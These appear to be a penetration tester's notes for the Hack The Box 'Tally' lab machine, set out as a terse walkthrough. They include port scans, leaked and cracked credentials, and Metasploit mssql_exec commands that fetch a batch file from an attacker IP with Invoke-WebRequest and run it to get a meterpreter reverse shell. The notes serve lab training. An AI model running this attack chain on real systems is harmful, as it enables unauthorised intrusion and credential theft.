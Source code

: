 PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
81/tcp    open  hosts2-ns
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
808/tcp   open  ccproxy-http
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
15567/tcp open  unknown
32843/tcp open  unknown
32844/tcp open  unknown
32846/tcp open  unknown
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown




=> http://github.com/sensepost/SPartan
	pip install requests_ntlm
	python SPartan.py -u http://tally.htb -sfcv

=> http://tally.htb/Shared%20Documents/Forms/AllItems.aspx

FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in

	ftp_user
	UTDRSCH53c"$6hys

=> Tim has keepass file 
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
CRACKED: simplementeyo

=> KEEPASS DATA:
TALLY ACCT share : Finance : Acc0unting
CISCO : cisco : cisco123
PDF Writer : 64257-56525-54257-54734 : 


=> SMB SHARE:
smbclient -L tally.htb -U Finance
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Finance's password: 
Domain=[TALLY] OS=[Windows Server 2016 Standard 14393] Server=[Windows Server 2016 Standard 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ACCT            Disk      
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Connection to tally.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available


=> MOUNTING THE ACCT: mount -t cifs -o username=Finance,password=Acc0unting //10.10.10.59/ACCT /mnt
Strings zz_Migration\Binaries\New folder\tester.exe
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

=>  use auxiliary/admin/mssql/mssql_exec
Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                                  Required  Description
   ----                 ---------------                                  --------  -----------
   CMD                  cmd.exe /c type C:\Users\Sarah\Desktop\user.txt  no        Command to execute
   PASSWORD             GWE3V65#6KFH93@4GWTG2G                           no        The password for the specified username
   RHOST                10.10.10.59                                      yes       The target address
   RPORT                1433                                             yes       The target port (TCP)
   TDSENCRYPTION        false                                            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                                               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                            yes       Use windows authentification (requires DOMAIN option set)

user.txt
be72362e8dffeca2b42406d5d1c74bb1


=> SHELL:
Use veil (22) powershell meterpreter reverse tcp
Get code in Tally1.bat
Start Listner

use auxiliary/admin/mssql/mssql_exec
PASSWORD             GWE3V65#6KFH93@4GWTG2G 
RHOST                10.10.10.59

set CMD powershell.exe /c Invoke-WebRequest -Uri 10.10.14.198/Tally1.bat -OutFile C:\\Users\\Sarah\\rev.bat
run
set CMD cmd.exe /c C:\\Users\\Sarah\\rev.bat
run

=> upgrade to x64
use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp

=> Root Potato Doh!


![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Suuure")
